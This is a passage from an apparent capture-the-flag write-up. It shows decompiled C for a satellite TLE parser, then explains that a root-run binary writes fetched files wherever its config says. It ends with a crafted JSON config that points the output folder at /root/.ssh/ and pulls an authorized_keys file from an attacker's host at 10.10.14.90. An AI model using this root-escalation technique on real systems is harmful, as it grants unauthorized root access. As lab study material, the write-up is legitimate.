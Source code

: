 ```c
      }
      if (*pcStack_20 != '\0') {
        iVar1 = iStack_34 + 1;
        iVar2 = su_orbit_parse_tle_line(param_1,iStack_34,__ptr);
        if (iVar2 == 0) {
          su_logprintf(3,&DAT_00173f96,__FUNCTION__.2,0x109,"exception in \"%s\" (%s:%d)\n",
                       "su_orbit_parse_tle_line(self, linenum++, linebuf)","(no file)",0x109);
          goto LAB_001165fc;
        }
        iStack_34 = iVar1;
        if (iVar1 == 3) {
          lStack_30 = uStack_28 + 1;
        }
      }
    }
    else if (*(char *)(param_2 + uStack_28) != '\r') {
      ppuVar3 = __ctype_b_loc();
      if (((*ppuVar3)[*(char *)(param_2 + uStack_28)] & 0x4000) == 0) {
        su_logprintf(3,&DAT_00173f96,__FUNCTION__.2,0x115,"Invalid character found in offset %d\n",
                     uStack_28);
        lStack_30 = -1;
      }
      if (uStack_38 < 0x45) {
        __ptr[uStack_38] = *(char *)(uStack_28 + param_2);
        uStack_38 = uStack_38 + 1;
      }
    }
    uStack_28 = uStack_28 + 1;
  } while( true );
}
```

In any case even with the intended use of the binary failing we can already see some interesting behavior, the successfully pulled tle resources are written by root into the `/tmp/tle` folder. The cool thing here is we also have control over where the binary writes those from the config file, so we can do this: 
```json
{
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.90:9090/weather.txt",
                "http://10.10.14.90:9090/noaa.txt",
                "http://10.10.14.90:9090/authorized_keys",
                "http://10.10.14.90:9090/starlink.txt"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
```